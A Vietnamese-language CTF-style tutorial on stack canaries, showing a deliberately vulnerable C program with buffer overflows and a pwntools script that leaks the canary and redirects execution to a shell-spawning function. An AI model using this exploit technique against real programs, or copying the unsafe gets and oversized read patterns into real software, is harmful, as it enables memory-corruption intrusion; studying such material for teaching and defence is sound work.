 # Decription

BOF dù rất nguy hiểm nhưng vẫn có 1 số cách để ngăn chặn nó.

Bài này tôi sẽ nói về canary.

# What is canary?

Canary là một cơ chế bảo vệ stack khỏi tấn công Buffer Overflow (BOF).

Khi chương trình chạy, trình biên dịch sẽ chèn một giá trị đặc biệt gọi là stack canary giữa các biến cục bộ và địa chỉ trả về trên stack.

Giá trị này được khởi tạo từ một biến canary toàn cục (global canary) khi chương trình bắt đầu.

Trước khi hàm return, chương trình sẽ so sánh giá trị canary trên stack (local canary) với canary toàn cục.

Nếu 2 giá trị này không khớp nhau, có nghĩa là stack đã bị ghi đè → chương trình kết thúc ngay lập tức (__stack_chk_fail()), nhằm ngăn chặn việc kiểm soát dòng thực thi.

Thường thì giá trị canary là động. Nhưng nó cũng có đặc điểm là bytes cuối cùng luôn là null và luôn nằm gần và trên thanh ghi save rbp.
![](images/canary.png)

# How to bypass canary?

Có rất nhiều cách để bypass canary như leak, bruteforce tùy vào điều kiện của chương trình. Tôi sẽ trình bày 1 cách là leak canary.

# Code

```c
#include<stdio.h>
#include <stdlib.h>
#include <unistd.h>


char *gets(char *);
void win() {
    system("/bin/sh");
}

void vul(){
    char secret[64];
    puts("Gift for u:");
    gets(secret);
}
int main(){
    char buf[64];
    puts("welcome to bof ez !!!");
    puts("Can you get shell");
    read(0,buf,73);
    puts("Oh... I see!");
    puts(buf);
    vul();
    return 0;
}
```

# Solve

Ta có thể thấy rằng buf khai báo 64 bytes nhưng read đến 73 bytes nên có bof.

Do bài có canary nên ta nhập quá sẽ bị stack smashing. Do dó cần leak được canary ra.

Mở gdb và xem.

![](images/read.png)

Canary ở ngay trên rsp. Offset từ buf đến canary là 72.

Trong code ta thấy hàm read đọc vào buf sau đó puts(buf). 

Hàm read sẽ nối liền với dữ liệu đằng sau nó nêu không có bytes null sau nó.

Điều này có nghĩa là puts sẽ in ra buf + dữ liêu sau nó nếu không có bytes null.

Vậy t ghì đè 1 bytes null của canary.

```c
payload = b'a' *73

sa(b'get shell\n', payload)
```

![](images/bug.png)

Ta thấy rằng sau 73 bytes a là 1 chuỗi không in được. Đó là canary. 

Vậy ta cần nhận 7 bytes này sau đó thêm 1 bytes null vào.

```c
p.recv(86)
canary = u64(b'\x00' +p.recv(7))
log.info("Canary: " + hex(canary))
```

![](images/canary.png)

Trong hàm vul ta cũng có bof. Cần tính ofset từ secret đến canary sau đó nhập canary để bypass.

![](images/offset.png)

```c
payload = b'b'*72
payload += p64(canary)
payload += p64(0xdeadbeaf)
payload += p64(exe.sym.win+1)
sla(b'u:\n',payload)
```

![](images/flag.png)

# Full Script
```c
#!/usr/bin/env python3

from pwn import *

exe = ELF('bof', checksec=False)
# libc = ELF('', checksec=False)
context.binary = exe

info = lambda msg: log.info(msg)
s = lambda data, proc=None: proc.send(data) if proc else p.send(data)
sa = lambda msg, data, proc=None: proc.sendafter(msg, data) if proc else p.sendafter(msg, data)
sl = lambda data, proc=None: proc.sendline(data) if proc else p.sendline(data)
sla = lambda msg, data, proc=None: proc.p.sendlineafter(msg, data) if proc else p.sendlineafter(msg, data)
sn = lambda num, proc=None: proc.send(str(num).encode()) if proc else p.send(str(num).encode())
sna = lambda msg, num, proc=None: proc.sendafter(msg, str(num).encode()) if proc else p.sendafter(msg, str(num).encode())
sln = lambda num, proc=None: proc.sendline(str(num).encode()) if proc else p.sendline(str(num).encode())
slna = lambda msg, num, proc=None: proc.sendlineafter(msg, str(num).encode()) if proc else p.sendlineafter(msg, str(num).encode())
def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''
b* 0x000000000040120a
b* 0x0000000000401229
b* 0x0000000000401257
b* 0x00000000004011d0
        c
        ''')
        input()


if args.REMOTE:
    p = remote('')
else:
    p = process([exe.path])
GDB()

payload = b'a' *73

sa(b'get shell\n', payload)
p.recv(86)
canary = u64(b'\x00' +p.recv(7))
log.info("Canary: " + hex(canary))

payload = b'b'*72
payload += p64(canary)
payload += p64(0xdeadbeaf)
payload += p64(exe.sym.win+1)
sla(b'u:\n',payload)
p.interactive()

```
